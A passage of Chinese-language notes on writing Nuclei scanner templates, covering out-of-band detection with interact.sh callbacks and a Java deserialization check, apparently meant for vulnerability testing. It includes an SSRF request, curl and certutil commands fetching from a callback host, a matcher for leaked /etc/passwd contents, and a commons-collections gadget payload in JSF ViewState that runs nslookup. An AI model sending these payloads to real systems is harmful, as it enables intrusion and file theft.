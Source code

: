```yaml
      - type: status
        status:
          - 302
```

#### OOB

自 Nuclei v2.3.6 发行以来，Nuclei 支持使用 interact.sh API 内置自动请求关联来实现基于 OOB 的漏洞扫描。就像 `{{interactsh-url}}` 在请求中的任何位置编写并为添加匹配器一样简单 interact_protocol。Nuclei 将处理交互作用与模板的相关性，以及通过允许轻松进行 OOB 扫描而生成的请求的相关性。

```yaml
requests:
  - raw:
      - |
        GET /plugins/servlet/oauth/users/icon-uri?consumerUri=https://{{interactsh-url}} HTTP/1.1
        Host: {{Hostname}}
```

**linux**
```bash
curl https://{{interactsh-url}}
```

**windows**
```bash
certutil.exe -urlcache -split -f https://{{interactsh-url}} 1.txt
```

```yaml
    matchers:
      - type: word
        part: interactsh_protocol # Confirms the HTTP Interaction
        words:
          - "http"
```

```yaml
    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol # Confirms the HTTP Interaction
        words:
          - "http"

      - type: regex
        part: interactsh_request # Confirms the retrieval of etc/passwd file
        regex:
          - "root:.*:0:0"
```

#### JAVA反序列化

```yaml
raw:
  -  |
    POST /index.faces;jsessionid=x HTTP/1.1
    Host: {{Hostname}}
    Accept-Encoding: gzip, deflate
    Content-Length: 1882
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Connection: close
    Content-Type: application/x-www-form-urlencoded

    javax.faces.ViewState={{generate_java_gadget("commons_collection3.1", "nslookup {{interact.sh}}", "base64")}}
```
